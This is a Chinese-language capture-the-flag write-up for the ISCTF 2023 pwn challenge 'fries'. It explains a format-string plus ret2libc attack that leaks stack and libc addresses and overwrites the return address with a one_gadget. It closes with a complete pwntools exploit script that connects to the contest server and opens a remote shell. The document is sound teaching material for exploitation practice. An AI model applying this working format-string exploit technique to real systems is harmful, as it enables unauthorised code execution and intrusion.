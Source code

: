 ```yaml
---
title: isctf2023 - fries
date: 2023/12/4 12:00:00
tags:
    - noob
excerpt: 涉及格式化字符串和ret2libc攻击，通过泄露栈和libc地址并利用one_gadget实现远程shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这道题考察格式化字符串+ret2libc，共有8次机会，可以先leak栈地址和libc地址，
再把返回地址写成打开shell，此处使用one_gadget可以只利用一次返回完成攻击

## 踩过的坑

本地能过的脚本，远端换了多少ogg就是不行，最后发现是栈上内容不一样！
下次还是先patchelf把libc打成目标的再本地调试吧（一开始偷懒，本地没patch）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('./fries')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1300)')
    else:
        sh = remote('43.249.195.138', 21942)
    oneGadgetOffset = 0xebc85
    libc = ELF('./libc.so.6')

    # payload 1, enter adventure()
    sh.sendline(b'fries\0')

    # payload 2, leak libc and stackAddr
    sh.recvuntil(b'pier\n')
    sh.sendline(b'%15$p%24$p')

    libcBase = int(sh.recv(14), 16) - libc.symbols['_IO_2_1_stdout_']
    ogg = libcBase + oneGadgetOffset
    stackRet = int(sh.recv(14), 16) - 0x48

    # payload 3 ~ 8, make one_gadget on retAddr
    mask = 0xff
    for i in range(6):
        sh.recvuntil(b'pier\n')
        count = (ogg & mask) >> 8 * i
        sh.sendline(f'%{count}c%10$hhn'.ljust(16).encode() + p64(stackRet + i))
        mask <<= 8

    # payload 9, discard remaining 1 read
    sh.recvuntil(b'pier\n')
    sh.sendline(b'just for fun\0')

    sh.interactive()
```

Done.
